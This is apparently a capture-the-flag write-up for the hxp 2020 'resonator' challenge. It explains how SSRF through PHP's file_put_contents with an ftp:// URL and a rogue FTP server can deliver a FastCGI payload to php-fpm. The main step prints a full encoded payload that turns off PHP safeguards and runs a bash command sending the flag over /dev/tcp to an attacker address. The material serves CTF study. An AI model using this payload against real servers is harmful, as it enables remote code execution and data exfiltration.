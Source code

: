 ### References

- [@dfyz, GatorSheavesMutably, Original writeup](https://github.com/dfyz/ctf-writeups/blob/master/hxp-2020/resonator)
- @Zeddyu, WebCTF知识星球, hxp2020

**Tag: SSRF, FTP Protocol**

> Using SSRF in `file_put_contents('ftp://...')` to deliver a FastCGI payload into a php-fpm socket.

1.run the `custom_ftp.py` from Zeddの知识星球 :)

2.Use [Gopherus](https://github.com/tarunkant/Gopherus) to generate fastcgi poc simply:

![](https://i.imgur.com/dI3YLCL.png)

3.send poc:

```tex
http://192.168.200.129:8009?file=ftp://evil_ftp:port/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH102%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00f%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22/readflag%20%3E%20/dev/tcp/10x.xxx.xxx.xx8/9001%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

![](https://i.imgur.com/IL1Nm0r.png)

#### About Env

When I run the `docker build` command, I got the following error in Ubuntu 20.04.2 LTS:

```tex
The command '/bin/sh -c ! find / -writable -or -user $(id -un) -or -group $(id -Gn|sed -e 's/ / -or -group /g') 2> /dev/null | grep -Ev -m 1 '^(/dev/|/run/|/proc/|/sys/|/tmp|/var/tmp|/var/lock|/var/log/nginx/error.log|/var/log/nginx/access.log|/var/lib/php/sessions)'' returned a non-zero code: 1
```

I dont know what this command means, and I just comment it simply and it works.🤣